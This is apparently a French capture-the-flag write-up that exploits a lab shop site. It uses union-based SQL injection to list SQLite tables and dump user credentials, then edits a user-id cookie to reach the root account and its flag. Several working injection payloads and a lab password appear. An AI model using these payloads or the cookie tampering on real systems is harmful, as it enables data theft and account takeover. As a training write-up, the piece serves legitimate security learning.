








# Recherches

On trouve une page de login.



Et une page de recherche d'item.



On tente une simple sqli sur la barre de recherche et on trouve une erreur, on est sur la bonne voie. On tente avec

```
a' or 1=1;--
```

Et on obtiant la liste de tous les résultats, on arrive à lister tous les éléments, on connait la syntaxe.

Avec `a' union 1,2,3;--` on obtient une erreur sur le nombre de colonnes. On trouve qu'il y a deux colonnes et que l'on peut écrire sur la deuxième.

Ensuite on teste pour la base de données et on trouve que c'est une bdd sqlite: `a' union select 1,sqlite_version();--`.

On se sert d'une commande pour trouver le nom des colonnes.
```
a' union select 1, group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';--
```

On a les colonnes Products, Users.



On refait pareil pour le nom des colonnes.

```
a' union select 1,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='Users';--
```

On a le nom des colonnes.



Et enfin avec ça on trouve l'utilisateur

```
a' union select Username, Password from Users;--
```

Et enfin on a notre accès à un compte.



On a les identifiants suivants:

```
Admin:
Jerry:1qaz2wsx
```

(Le hash de admin ne nous donnera rien)

Enfin une fois sur le profil on change le cookie de id utilisateur de 2 vers 1 et on trouve le profil de l'utilisateur root: `0xfun{T0ny'5_T00ly4rd._1_H0p3_Y0u_H4d_Fun_SQL1ng,_H45H_Cr4ck1ng,_4nd_W1th_C00k13_M4n1pu74t10n}`




# Exploit

# Documentation

